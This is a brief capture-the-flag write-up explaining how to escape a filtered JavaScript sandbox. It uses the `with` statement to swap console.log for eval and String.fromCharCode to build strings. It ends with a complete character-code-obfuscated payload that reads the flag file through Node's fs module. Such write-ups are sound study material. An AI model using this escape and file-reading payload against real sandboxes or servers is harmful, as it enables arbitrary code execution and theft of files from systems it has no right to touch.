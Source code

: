 # js without getattr

there are a few required noticings here

first, we can still define variables if we dont use `let`, `var`, or `const`.

second, the `with` statement exists (see [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/with))

third, process.mainModule.require is the global require function even though it is not listed on process.mainModule as an attribute

with `with`, we have arb attribute read and write pretty much

we can overwrite console.log with eval, and then return a string which is eval'd. 

notably, we dont need to use semicolons after a with statement so the following is valid i think

```
with(console){log=eval}'malicious code here'
```

next, we need to make arb strings to win

we can avoid the tree filter, but the char filter is still there

to win, we can use String.fromCharCode in another with statement and set a variable with a one letter name to it

lastly, we can use `throw` and `fs` module to get the flag in a very short payload

the payload is below

```
with(console){log=eval}'with(String){z=fromCharCode}eval(z(116)+z(104)+z(114)+z(111)+z(119)+z(32)+z(112)+z(114)+z(111)+z(99)+z(101)+z(115)+z(115)+z(46)+z(109)+z(97)+z(105)+z(110)+z(77)+z(111)+z(100)+z(117)+z(108)+z(101)+z(46)+z(114)+z(101)+z(113)+z(117)+z(105)+z(114)+z(101)+z(40)+z(39)+z(102)+z(115)+z(39)+z(41)+z(46)+z(114)+z(101)+z(97)+z(100)+z(70)+z(105)+z(108)+z(101)+z(83)+z(121)+z(110)+z(99)+z(40)+z(39)+z(102)+z(108)+z(97)+z(103)+z(46)+z(116)+z(120)+z(116)+z(39)+z(41))'
```

you can also compress with substitution like `g=z(101)` within the brackets of `if(1){}`
